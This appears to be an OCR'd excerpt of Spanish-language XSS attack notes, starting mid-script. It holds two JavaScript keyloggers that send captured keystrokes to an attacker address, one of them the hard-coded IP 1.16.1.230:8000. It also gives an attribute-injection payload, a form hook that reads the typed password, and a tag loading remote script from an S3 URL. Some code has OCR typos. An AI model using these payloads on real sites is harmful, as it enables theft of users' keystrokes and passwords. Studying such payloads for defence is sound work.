 ```html
		//agregar al array
		buffer.push(keystroke);
	}

	//enviar los datos cada 0.2 segundos
	windows.setInterval(()=>{
		if (buffer.length > 0)
		{
			let data = encodeURIComponent(JSON.stringfy(buffer));
			new Image().src = attacker_IP+data;
			//reset array
			buffer=[];
		}
	},200);
</script>
```

```html
<script>
	//capturar lo que se escribe
	document.onkeypress = (e)=>{
		
		let keystroke = String.fromCharCode(e.which);
		new Image().src = "http://1.16.1.230:8000/?c="+keystroke;
	}
</script>
```

### CONTROL EVENT LISTENER

podemos probar en los campos de un formulario inyectar codigo JS en caso de no encontrar un parametro URL vulnrable, por ejemplo intentar en el campo username de un fomrulario:

```javascript
admin"onmouseover="alert(1);
```

Podemos cambiar la funcion de un boton para que haga algo que queramos, por ejemplo el boton de un formulario que nos muestre la pass:

```html
<script>
	document.forms[0].onsubmit = () =>{
		let password = document.forms[0].elements[1].value;
		alert(password);
	}
</script>
```

### INCLUDE EXTERNAL JS

```html
<script src="http://demofilespa.s3.amazonaws.com/jfptest.js"></script>
```
